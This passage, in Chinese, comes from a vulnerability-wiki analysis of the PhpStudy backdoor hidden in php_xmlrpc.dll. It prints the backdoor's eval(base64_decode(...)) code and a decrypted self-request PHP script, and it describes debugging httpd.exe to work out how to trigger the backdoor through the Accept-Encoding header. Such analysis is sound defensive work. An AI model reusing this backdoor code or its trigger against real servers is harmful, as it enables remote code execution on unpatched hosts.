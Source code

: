                 $n=true;
            }
            @eval(base64_decode($info[3]));
        }
    }while($n);

![4.jpg](/Users/aresx/Documents/VulWiki/.resource/Phpstudy后门(非官方后门！！！)/media/rId31.jpg)

从1000D028 到1000D66C的代码解密：

    @ini_set("display_errors","0");
    error_reporting(0);
    $h = $_SERVER['HTTP_HOST'];
    $p = $_SERVER['SERVER_PORT'];
    $fp = fsockopen($h, $p, $errno, $errstr, 5);
    if (!$fp) {
    } else {
        $out = "GET {$_SERVER['SCRIPT_NAME']} HTTP/1.1\r\n";
        $out .= "Host: {$h}\r\n";
        $out .= "Accept-Encoding: compress,gzip\r\n";
        $out .= "Connection: Close\r\n\r\n";

        fwrite($fp, $out);
        fclose($fp);
    }

![5.jpg](/Users/aresx/Documents/VulWiki/.resource/Phpstudy后门(非官方后门！！！)/media/rId32.jpg)

#### 动态调试构造传参内容

OD动态调试传参值需要对httpd.exe进程进行附加调试，phpstudy启用的httpd进程有两个。一个是带有参数的，一个是没有带参数的。在下断的时候选择没有参数的httpd.exe下断才能触发后门。

根据前面IDA静态分析得到的后门函数地址，OD附加进程后从httpd.exe调用的模块里找到php\_xmlrpc.dll模块，在DLL空间里定位后门函数地址0x100031F0，可能还需要手动修改偏移后下断点。使用burpsuite，构造Accept-Encoding的内容。发包后可以动态调试。建立触发点的虚拟机快照后可以反复跟踪调试得到最终可利用的payload。

![6.jpg](/Users/aresx/Documents/VulWiki/.resource/Phpstudy后门(非官方后门！！！)/media/rId34.jpg)

图4：OD动态调试Payload

#### PHP脚本后门分析

脚本一功能：使用fsockopen模拟GET发包

    @ini_set("display_errors","0");
    error_reporting(0);
    $h = $_SERVER['HTTP_HOST'];
    $p = $_SERVER['SERVER_PORT'];
    $fp = fsockopen($h, $p, $errno, $errstr, 5);
    if (!$fp) {
    } else {
        $out = "GET {$_SERVER['SCRIPT_NAME']} HTTP/1.1\r\n";
        $out .= "Host: {$h}\r\n";
        $out .= "Accept-Encoding: compress,gzip\r\n";
        $out .= "Connection: Close\r\n\r\n";
